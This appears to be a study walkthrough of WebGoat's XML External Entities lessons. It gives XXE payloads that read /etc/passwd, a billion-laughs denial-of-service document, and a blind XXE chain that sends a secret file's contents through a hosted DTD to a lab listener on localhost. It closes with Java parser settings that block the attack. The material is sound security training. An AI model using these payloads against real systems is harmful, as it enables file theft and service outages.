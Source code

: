 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [A4 - XML External Entities](#a4---xml-external-entities)
  - [XXE](#xxe)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# A4 - XML External Entities

## XXE

### 1. Concept

### 2. What is a XML entity?

Types of XXE attacks:

- classic: an external entity is included in a local DTD
- blind: no output or errors are shown in the response
- error: resource get in the error message

### 3. XXE example

XML entities:

```xml
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE author [
	<!ELEMENT author (#PCDATA)>
	<!ENTITY js "Jo Smith">
]>
<author>&js;</author>
```

External DTD declaration:

```xml
<?xml version="1.0"?>
<!DOCTYPE note SYSTEM "email.dtd">
<email>
	<to>webgoat@webgoat.org</to>
	<from>webwolf@webwolf.org</from>
	<subject>Your app is great, but contains flaws</subject>
	<body>Hi, your application contains some SQL injections</body>
</email>
```

with `email.dtd` content:

```
<!ELEMENT email (to,from,title,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT subject (#PCDATA)>
<!ELEMENT body (#PCDATA)>
```

XXE:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE author [
	<!ENTITY js SYSTEM "file:///etc/passwd">		
]>
<author>&js;</author>
```

Hint: including the `DOCTYPE` definition 
if the parser settings are enabled to allow external entities to be processed 
you are off to a good start for finding a XXE injection.

### 4. Let's try

Exploit:

```xml
<?xml version="1.0"?>
<!DOCTYPE author [
	<!ENTITY js SYSTEM "file:///">
]>
<comment>  <text>&js;</text></comment>
```

### 5. Assignment solution

### 6. Find XXE with a code review

- Jackson 2.7.8 does not inizialize the parser safely
- Spring Boot framework initializes the parser safely

### 7. Modern REST framework

Exploit:

HTTP Header: `Content-Type
	application/xml`

HTTP Body:

```xml
<?xml version="1.0"?>
<!DOCTYPE author [
	<!ENTITY js SYSTEM "file:///">
]>
<comment>  <text>&js;</text></comment>
```

### 8. Assignment solution

### 9. XXE DoS attack

Exploit example:

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
	<!ENTITY lol "lol">
	<!ELEMENT lolz (#PCDATA)>
	<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
	<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
	<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
	<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
	<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
	<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
	<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
	<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
	<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

### 10. Blind XXE

- Create and host `attack.dtd` file on WebWolf:

```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY send SYSTEM 'http://localhost:9090/landing'>
```

- Submit the following xml in order to invoke the `attack.dtd`

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
	<!ENTITY % remote SYSTEM "http://localhost:9090/files/newbie/attack.dtd">
	%remote;
]>
<comment>
  <text>&send;</text>
</comment>
```

- Check 'WebWolf' > 'Incoming requests'

### 11. Blind XXE assignment

In DTD:

- `% declared_variable`
- `%invoked_variable;`

In XML:

- `&invoked_variable;`

N.B.: It is not possible refer to an entity from another entity in the same DOCTYPE.
A possible workaround is to construct the URL with data coming from other entities.

Attack phases:

- the payload loads the remote dtd file (through `%dtd;`)
- the dtd file refers to `file` (`%file;`)
- `file` (defined in the payload) is loaded from the file system
- the payload performs `send` (`&send;`)
- in order to perform `send`, `all` from the dtd file is executed (`%all;`)
- HTTP request is performed

injection.dtd

```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost:9090/landing?text=%file;'>"> %all;
```

Payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE author [
	<!ENTITY % file SYSTEM "file:///home/mastinux/.webgoat-8.1.0//XXE/secret.txt">
	<!ENTITY % dtd SYSTEM "http://localhost:9090/files/newbie/injection.dtd">
	%dtd;
]>
<comment>
  <text> &send; </text>
</comment>
```

From 'WebWolf' > 'Incoming Request': `WebGoat 8.0 rocks... (ZWYWLAwxmi)`

### 12. XXE mitigation

- ignore DTD:

```java
XMLInputFactory xif = XMLInputFactory.newFactory();
xif.setProperty(XMLInputFactory.SUPPORT_DTD, false);
```

- if unable to ignore DTD, ignore external entities:

```java
XMLInputFactory xif = XMLInputFactory.newFactory();
xif.setProperty(XMLInputFactory.IS_SUPPORTING_EXTERNAL_ENTITIES, false);
xif.setProperty(XMLInputFactory.SUPPORT_DTD, true);
```